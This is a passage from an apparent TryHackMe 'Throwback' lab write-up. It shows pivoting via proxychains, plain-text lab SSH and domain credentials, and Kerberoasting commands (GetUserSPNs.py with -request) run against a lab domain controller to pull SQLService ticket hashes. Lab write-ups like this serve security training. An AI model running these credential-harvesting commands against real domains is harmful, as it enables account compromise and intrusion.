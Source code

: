 ![with_proxychains](/assets/img/tryhackme/throwback/with_proxychains.png)

Now, Our proxychains works as expected. So, Let's detect other machines `DC01 and timekeep`.


----
### 8. **ThrowBack-Time 10.200.154.176**

#### 8.1 SSH

credentials: Timekeeper: keeperoftime

----
#### 8.2 SPN
After checking the opening ports we found that port 3306 is opened. As we know that port related to mysql. Also most of times SQLService accounts will have an SPN. So let's check it.

`proxychains GetUserSPNs.py -dc-ip 10.200.154.117 THROWBACK.LOCAL/BlaireJ:7eQgx6YzxgG3vC45t5k9`

![spn1](/assets/img/tryhackme/throwback/spn1.png)

As we expected that SQLService is vulnerable. Let's try to catch the flag. Let's get it by using `-request`

`proxychains GetUserSPNs.py -dc-ip 10.200.154.117 THROWBACK.LOCAL/BlaireJ:7eQgx6YzxgG3vC45t5k9 -request`

![spn_2_2](/assets/img/tryhackme/throwback/spn_2_2.png)
